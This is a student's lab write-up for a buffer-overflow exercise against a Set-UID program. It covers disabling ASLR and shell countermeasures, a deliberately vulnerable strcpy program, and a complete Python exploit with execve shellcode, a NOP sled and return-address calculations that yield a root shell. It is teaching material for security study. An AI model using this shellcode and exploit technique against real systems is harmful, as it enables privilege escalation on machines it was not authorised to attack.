 # Buffer Overflow Attack Lab (Set-UID Version)

## Environment Setup

Modern operating systems have implemented several security mechanisms to make the buffer-overflow attack difficult. 

Ubuntu and several other Linux-based systems uses address space randomization to randomize the starting address of heap and stack.  This makes guessing the exact addresses difficult; guessing addresses is one of the critical steps of buffer-overflow attacks.

This protection, can be disabled with the command:

```bash
 $ sudo sysctl -w kernel.randomize_va_space=0
 ```

In the recent versions of Ubuntu OS, the/bin/sh symbolic link points to the/bin/dash shell. The dash program, as well as bash, has implemented a security countermeasure that prevents itself from being executed in a Set-UID process. Basically, if they detect that they are executed in a Set-UID process, they will immediately change the effective user ID to the process’s real user ID, essentially dropping the privilege.

Since  our  victim  program  is a Set-UID program, we will link /bin/sh to another shell that does not have such a countermeasur using the following command:

```bash
 $ sudo ln -sf /bin/zsh /bin/sh
 ```

# Task 1

After, we compiled "call_shell.c" using "make", two executables where created one for 32 bits and another for 64 bits. When running them, both opened a new shell in the same directory that we ran the program.

![CreateShell](../docs/week5/log5task1.png)

# Task 2

In the "stack.c" file we have the following code:

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);       

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r"); 
    if (!badfile) {
       perror("Opening badfile"); exit(1);
    }

    int length = fread(str, sizeof(char), 517, badfile);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size 
// 1000 (approximately) between main's and bof's stack frames. 
// The function itself does not do anything. 
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}
```

This program has a buffer-overflow vulnerability. It starts by opening a file "badfile" and reading 517 bytes to an array of chars called str. Then, it calls the bof function and uses "strcpy" to copy data from the array to a buffer of chars with size of 100 bytes. This process causes an overflow because "strcpy" does not check boundaries.

For the vulnerable program, we disabled StackGuard and protections against code execution invoked from the stack. Additionally, we changed the program's owner to root and activated Set-UID.

This can be done with the following commands:

````bash
 $ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
 $ sudo chown root stack
 $ sudo chmod 4755 stack
 ````

Because the compilation and setup commands are already included in Makefile, we just need to type "make".

![CreateShell](../docs/week5/log5task2.png)


# Task 3

When running GDB, we got the ebp value and the buffer's address with the following steps:

![Ebp_bufferaddr](../docs/week5/log5task3_1.png)

After knowing these values, we need to prepare the *badfile*, so the next step is to complete the *exploit.py* file with the values we got from GDB.

Because this is an Attack on 32-bit Program, in the shellcode variable we insert the 32-bit shellcode from the *call_shellcode.c* file.

![ShellValue](../docs/week5/log5task3_2.png)

Then, we need to set the start position to the end of the buffer. Since the buffer's length is 517, the position is:

![StartValue](../docs/week5/log5task3_3.png)

Furthermore, we now need to change the return address to one that will run our code. If the address points to any NOP's that come before the shellcode, it will run. So, we just need to add the *ebp* value to the *start* value.

![ReturnValue](../docs/week5/log5task3_4.png)

Finally, the only thing left to do before running our attack is to change the offset value, which can be done with the opeation *ebp - buffer + 4*

![OffsetValue](../docs/week5/log5task3_5.png)

After completing the python script, we end up with:

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload

start = 517-len(shellcode)         # Change this number 
content[start:start + len(shellcode)] = shellcode
# Decide the return address value 
# and put it somewhere in the payload

ret    = 0xffffcb28 + start           # Change this number 
offset = 0xffffcb28  - 0xffffcabc + 4 # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
 ```

 After running the script and creating the badfile, we just need to run *stack-L1*. This opens a shell and we can verify through the *whoami* command that we have a root shell:


![NewShell](../docs/week5/log5task3_6.png)


# Task 4

At the start of this task, we use gdb to find the buffer adress, ignoring the buffer size "160".

![bufferadress](../docs/week5/logtask4(1).png)

We only know that it is between 100 and 200 so we populate our ret variable with the values we got and define some bounds. Then we run this cycle to populate the 'content' array with the bytes from the 'ret' variable. 

```
start =  517 - len(shellcode)# Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcac0 + start      # Change this number 
upper = 100
lower = 200                        # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
temp = (ret).to_bytes(L,byteorder='little')

for offset in range(upper, lower + L, L):
    content[offset:offset + L] = temp
```

Finally, by running the exploit we ge access to the shell.

![sucess](../docs/week5/logtask4(2).png)
